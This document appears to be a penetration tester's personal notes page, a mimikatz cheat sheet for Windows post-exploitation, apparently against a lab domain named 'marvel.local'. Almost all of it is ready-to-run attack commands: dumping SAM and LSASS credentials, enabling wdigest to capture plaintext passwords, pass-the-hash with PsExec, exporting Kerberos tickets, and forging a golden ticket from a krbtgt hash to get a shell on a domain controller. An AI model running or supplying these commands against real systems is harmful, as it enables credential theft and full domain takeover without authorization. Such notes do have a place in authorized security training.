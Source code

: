 >NEEDS LOCAL ADMIN USER / SYTEM ACCESS 

#### Old version!

```bash - kali
git clone https://github.com/caday00/mimikatz2.1.1
```

#### New versions!

```
https://github.com/gentilkiwi/mimikatz/releases
```

Run CMD / PS as admin before running mimikatz.

#### Password dumps

```command prompt - target
privilege::debug
```

```command prompt - target
token::elevate
```

```command prompt - target
lsadump::sam
```

```command prompt - target
sekurlsa::logonpasswords
```


---

```command prompt - target
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

```command prompt - target
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```

IF YOU GET THIS ERROR:  Download an older version and try again.

![[Pasted image 20220605172609.png]]

![[Pasted image 20220118191412.png]]

Enable wdigest (shows plaintext passwords when a user logs in again)

```command prompt - target
sekurlsa::wdigest
```

#### Pass The Hash

Be sure to have a copy of PsExec on target!

```command prompt - target
sekurlsa::pth /user:$USER /domain:$NETBIOS_DOMAIN_NAME /ntlm:$HASH /run:".psexec \$USER -h cmd.exe"  
```

#### TGT and service tickets abuse
```command prompt - target
sekurlsa::tickets
```

![[Pasted image 20220118191633.png]]

![[Pasted image 20220118191704.png]]

[[1._Service Account Attacks]]


#### Golden Ticket
```command prompt - target
privilege::debug
```

```command prompt - target
token::elevate
```

```command prompt - target
lsadump::lsa /inject /name:krbtgt
```

![[Pasted image 20220101224308.png]]

We need the SID and NTLM values.

```command prompt - target
S-1-5-21-3930179768-1295167970-3814010639
```

```command prompt - target
9aef958e753aad3426a3b6630e15a671
```

```command prompt - target
kerberos::golden /User:fakeuser /domain:marvel.local /sid:S-1-5-21-3930179768-1295167970-3814010639 /krbtgt:9aef958e753aad3426a3b6630e15a671 /id:500
```

```command prompt - target
 kerberos::ptt ticket.kirbi
```

```command prompt - target
misc::cmd
```

```command prompt - target
psexec.exe \\dc01 cmd.exe
```

```command prompt - target
whoami 
```

```command prompt - target
whoami /groups
```